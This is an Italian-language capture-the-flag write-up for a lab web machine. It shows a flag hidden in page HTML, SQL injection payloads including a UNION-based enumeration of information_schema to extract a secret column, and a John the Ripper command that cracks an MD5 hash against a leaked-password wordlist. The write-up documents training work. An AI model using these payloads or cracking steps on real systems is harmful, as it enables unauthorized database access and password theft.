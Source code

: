 # First vulnerbility

Una volta cceduto nella macchina ho fatto l'inspect di ogni pagina, ho notato la flag all'interno dell'html della pagina about:
**You are a real seeker! Here is your price: FLAG{H1dd3n_1n_HTML_t4gs}**

# Seconda vulnerability

Eseguendo la query 1'OR'1'='1'; mi stampa tutte le entry del database, tra cui c'è anche la flag:
**FLAG{F1rst_fl4g_f0r_SQLi}**

# Terza vulnerability

Continuando con le sqli ho enumerato innanzitutto tutte le tabelle del sistema con la query:
**'UNION SELECT table_name,2,3 FROM information_schema.tables;**
Successivamente ho notato una tabella chiamata flag ed ho sequito la seguente query:
**'UNION SELECT column_name,2,3 FROM information_schema.columns WHERE table_name="flag";**
Una volta enumerate le colonne della tabella ne ho trovata una chiamata: secret_flag. Quindi ho eseguito la query:
**'UNION SELECT secret_flag,2,3 FROM flag;**
Trovando così la flag:
**FLAG{SQLi_1s_s0_n1c3!}**

## Quarta vulnerability
Nella pagina iniziale ho una stringa uguale a:
**e1662f3e041a64427c6a93844c524307**
dopo un'analisi più approfondita ho scoperto che l'hash è encriptata in md5, successivamente ho eseguito il comando:


**john hash.txt --wordlist=/usr/share/wordlists/seclists/Passwords/darkweb2017-top10000.txt -format=RAW-MD5**

e mi ha trovato questa stringa:

**PE#5GZ29PTZMSE**



